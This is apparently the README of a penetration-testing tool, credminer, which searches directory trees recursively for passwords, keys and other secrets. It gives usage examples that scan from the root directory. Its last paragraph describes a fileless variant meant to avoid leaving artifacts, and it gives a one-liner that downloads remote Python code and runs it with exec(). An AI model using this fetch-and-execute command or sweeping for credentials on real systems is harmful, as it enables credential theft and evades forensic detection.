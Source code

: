 # credminer

credminer is a Python recursive string and regex utility. It allows you to recursively search through all files with in a directory and any subdirectories and matches on a string or regex. When a match is found it prints what was matched and the full path of the file it was found in to the screen. By default it will search all filetypes so unless you want to look for secrets in a specific filetype the `-f` can be ommited.

(demo2.gif)[https://github.com/3Xploitd/credminer/blob/f2997fe30a9cbfa2f4037df46b5b176c52b1b87a/demo2.gif]

## usage

~~~

usage: credminer.py [-h] (-t TEXT | -r REGEX | -s) -d DIRECTORY [-f FILETYPE] [-a ADDREGEX]

options:
  -h, --help            show this help message and exit
  -t TEXT, --text TEXT  text or to search for
  -r REGEX, --regex REGEX
                        regular expression to match on
  -s, --secrets         Secrets to search for
  -d DIRECTORY, --directory DIRECTORY
                        The directory to search in
  -f FILETYPE, --filetype FILETYPE
                        The file extention to search for
  -a ADDREGEX, --addregex ADDREGEX
                        Adds a regex expression to the secrets file
~~~

      
## Examples

`python3 credminer.py -d / -f txt -t password`
This will search for any files under the root directory that are text files and contain the word password in them.

`python3 credminer.py -d / -f pdf -t password`
This will search for the word password in pdf files under the root directory

`python3 credminer.py -d / -s`
This will load the json regexes file and search for secrets matching each of the regexes on all file types under the root directory

`python3 credminer.py -d / -f txt -r "(pass|password|code|key)"`
This will search for either the word password or passcode in text files that are under the root directory

# invoke_credminer

This is  a modified version of `credminer.py` to allow you to run the script without saving it to disk. The reason being, is depending on your use case such as a Penetration Tester, you may not want the script to be saved on disk to leave definite artifacts behind. By default it runs the `get_secrets` function on the root directory, looking for all filetypes. However, this can be easily changed as there are several variables which have been added to pass the arguments to the script without having to pass them yourself. In a way this functions similarly to `IEX` in PowerShell. By changing the values of `text_search`, `regex_search`, `secret_search`, `filetype_search`, and `search_directory` it will automatically assign the arguments so all that has to be done to run the program on disk is `python3 credminer.py` but to run it without downloading it to disk you can run `python3 -c 'import requests; r = requests.get("https://raw.githubusercontent.com/3Xploitd/credminer/main/invoke_credminer.py").text;exec(r)'`.

